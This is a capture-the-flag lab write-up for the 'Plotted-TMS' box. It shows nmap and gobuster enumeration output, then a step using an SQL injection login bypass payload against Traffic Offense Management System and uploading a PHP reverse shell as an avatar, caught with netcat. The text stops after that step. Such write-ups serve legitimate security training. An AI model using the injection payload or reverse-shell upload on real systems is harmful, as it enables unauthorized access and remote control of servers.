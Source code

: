 # Plotted-TMS


1. Enumerate with nmap
```
root@ip-10-10-75-207:~/Downloads# sudo nmap -sS -A 10.10.73.195

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-25 18:33 BST
Nmap scan report for ip-10-10-73-195.eu-west-1.compute.internal (10.10.73.195)
Host is up (0.017s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:EC:A9:D7:8D:8F (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=4/25%OT=22%CT=1%CU=31993%PV=Y%DS=1%DC=D%G=Y%M=02ECA9%T
OS:M=6266DBE2%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)
OS:SEQ(SP=FE%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M2301
OS:ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)WI
OS:N(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F5
OS:07%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T
OS:3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT      ADDRESS
1   17.49 ms ip-10-10-73-195.eu-west-1.compute.internal (10.10.73.195)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.52 seconds
```

2. Brute force directories on port 80 with gobuster. We find `/admin`, `/passwd`, and `/shadow`, but all of them contain base64 encoded text that says that it's `not that easy`
```
root@ip-10-10-75-207:~/Downloads# gobuster dir -u http://10.10.73.195/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.73.195/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/04/25 18:36:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/admin (Status: 301)
/index.html (Status: 200)
/passwd (Status: 200)
/server-status (Status: 403)
/shadow (Status: 200)
===============================================================
2022/04/25 18:36:36 Finished
===============================================================
```

3. Brute force directories on port 445 with gobuster. `/management` contains a login page
```
root@ip-10-10-75-207:~/Downloads# gobuster dir -u http://10.10.73.195:445/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.73.195:445/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/04/25 18:36:46 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/management (Status: 301)
/server-status (Status: 403)
===============================================================
2022/04/25 18:36:57 Finished
===============================================================
```

4. Search for the `Traffic Offense Management System` and find [this](https://www.exploit-db.com/exploits/50221) exploit. Use the SQL injection in the exploit `{"username": "'' OR 1=1-- '", "password": "'' OR 1=1-- '"}` to login. Then navigate to the user account portal. Download the [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change the ip address and port, and then upload the reverse shell as your avatar. Use netcat to catch the connection
